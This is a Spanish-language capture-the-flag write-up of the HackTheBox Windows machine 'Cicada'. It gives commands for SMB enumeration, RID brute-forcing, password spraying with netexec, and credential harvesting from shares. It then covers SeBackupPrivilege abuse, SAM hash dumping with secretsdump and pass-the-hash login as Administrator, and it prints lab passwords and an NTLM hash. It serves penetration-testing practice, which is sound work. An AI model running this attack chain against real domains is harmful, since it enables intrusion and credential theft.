

# Writeup de la máquina Cicada realizado por Daniel Damota

<p align="center">
  
</p>

## Información General

- **Plataforma**: [Hackthebox](https://www.hackthebox.com/)
- **Nivel de Dificultad**: Fácil
- **Sistema Operativo Detectado**: Windows
- **Fecha de Ejecución**: 10/03/2025
- **Metodología**: Enumeración → Explotación → Escalada de Privilegios

## Machine Matrix

<p align="center">
  
</p>

## Técnicas utilizadas

- Pruebas de penetración en Active Directory

- Fuerza Bruta con Kerbrute para enumerar posibles usuarios

- Enumeración SMB

- Ataque de RID Brute con Netexec para posible descubrimiento de usuarios

- Ataque Password Spraying con Netexec

- Filtración de información a través de Rpcclient (querydispinfo)

- Filtración de información por recursos compartidos de SMB (Credenciales para acceder con Evil-winrm)

- Abuso de SeBackupPrivilege/SeRestorePrivilege y Pass The Hash con Evil-winrm [Escalada de privilegios]

---

## 1. Reconocimiento y Enumeración

Comprobamos si la máquina está activa mediante el envío de un paquete ICMP y por el TTL, que es cercano a 128, reconocemos que es una máquina Windows.

```
ping -c1 <IP>
```


Realizamos un primer escaneo con nmap para conocer los puertos abiertos de la máquina y volcamos el resultado en un archivo en formato "grepeable" para realizar un tratamiento mediante expresiones regulares (regex):

```
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n <IP> -oG allPorts
```


Usando una función en bash, extraemos la información mas relevante de la captura grepeable y copiamos los puertos abiertos a la clipboard mediante xclip. La función previamente defina es la siguiente:

```
# Extract nmap information:
function extractPorts(){
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{prin>
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{>
        echo -e "\n[*] Extracting information...\n" > extractP>
        echo -e "\t[*] IP Address: $ip_address"  >> extractPor>
        echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.>
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n"  >> extractP>
        cat extractPorts.tmp; rm extractPorts.tmp      
}
```


Ahora realizamos un escaneo mas exhaustivo de los puertos (debido a la alta cantidad de puertos, vamos a exportar la evidencia en formato XML para visualizarlo de manera más comoda a través del navegador):

```
nmap -sCV -p<PUERTOS> <IP> -oN targeted -oX targeted.xml
```


Para visualizar el targeted.xml, usamos:

```
xsltproc targeted.xml -o targeted.html
```


Ahora iniciamos un servidor http con python y visualizamos el contenido de targeted.html:

```
python -m http.server 80
```


Si nos fijamos, encontramos que el host es CICADA-DC, perteneciente al dominio cicada.htb:


Añadimos el dominio y el host a nuestro archivo hosts:

```
sudo nano /etc/hosts
```

Añadimos la siguiente línea:

```
10.10.11.35     CICADA-DC.cicada.htb cicada.htb CICADA-DC 
```


Si hacemos ping a cicada.htb, vemos que nos resuelve:


## 2. Explotación

Como primer paso, vamos a intentar enumerar usuarios mediante rpcclient haciendo uso de un null session:

```
rpcclient -U "" -N 10.10.11.35
```


Viendo que no tenemos acceso, vamos a usar kerbrute aprovechando el servicio kerberos:


Ahora teniendo posibles usuarios, viendo que uno es guest (Invitado), vamos a intentar enumerar recursos compartidos de SMB o realizar una fuerza bruta en caso de no tener acceso:

```
netexec smb 10.10.11.35 -u 'guest' -p '' --shares
```


Vemos que tenemos permisos de lectura sobre algunos recursos (en este caso HR nos llama la atención porque es un recurso creado que no viene por defecto), por lo tanto vamos a ver el contenido con smbclient:

```
smbclient //10.10.11.35/HR -U 'guest'
```


Obtenemos el recurso txt mediante get "Notice from HR.txt" y lo leemos:




Vemos que tenemos una credencial, pero no el usuario al que le pertenece, por lo tanto vamos a usar netexec para hacer un ataque rid brute e intentar enumerar más usuarios:

```
netexec smb 10.10.11.35 -u 'guest' -p '' --rid-brute > ridbrute.txt
```


Si realizamos el siguiente filtro con regex, podremos ver los usuarios enumerados y reescribir el fichero (usando sponge evitamos problemas al leer y escribir a la vez el mismo fichero y podemos guardar los cambios):

```
cat ridbrute.txt | grep User| awk '{print $6}'| awk -F '\' '{print $2}' | sponge ridbrute.txt
```


Ahora podemos hacer un password spraying con la credencial encontrada anteriormente y el listado de usuarios:

```
netexec smb 10.10.11.35 -u 'ridbrute.txt' -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```


Vemos que hay un usuario que no es Invitado: michael wrightson, por lo tanto podemos probar a ver si tienes mas privilegios sobre los recursos compartidos a nivel de red:

```
smbmap -H 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' -r
```


También podemos ver si tiene permisos de conexión remota:

```
netexec winrm 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@L'
```


Podemos volver a intentar esta vez conectarnos con rpcclient y ver si podemos enumerar más usuarios y sus descripciones:

```
rpcclient -U 'michael.wrightson' 10.10.11.35
```

```
querydispinfo and enumdomusers
```


Probamos a conectarnos con netexec con el usuario y la credencial expuesta:

```
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```


Visualizamos el contenido de DEV mediante smbclient y obtenemos lo que haya mediante get:


Podemos ver si el usuario tiene permiso de conectarse en remoto:

```
netexec winrm 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3'
```


Viendo que no tenemos permisos de conexión aún, vamos a fijarnos en el script de powershell obtenido del recurso DEV anteriormente:


Como podemos observar, hay unas credenciales nuevas, por lo que podemos probar si tiene permisos de acceso remoto:

```
netexec winrm 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```


Ahora podemos conectarnos usando evil-winrm:

```
evil-winrm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35
```


Visualizamos la primera flag:

```
type user.txt
```


## 3. Escalada

Ahora que hemos conseguido el acceso, nuestro objetivo es convertirnos en System mediante una escalada de privilegios. Vamos a realizar unas cuantas enumeraciones:

Ver a que grupos pertenecemos:

```
net user emily.oscars
```


Privilegios asignados:

```
whoami /priv
```


Vemos que tenemos un privilegio que no viene por defecto, que es SeBackupPrivilege, el cual podemos buscar si es vulnerable y encontramos lo siguiente:

```
https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md#exploitation
```

Seguimos los pasos del repositorio:


Ahora con impacket secretdump, obtenemos el hash del administrador:

```
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```


Ahora podemos usar el hash para hacer pass the hash con evil-winrm:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
```
evil-winrm -i 10.10.11.35 -u 'Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341
```


Visualizamos la última flag:


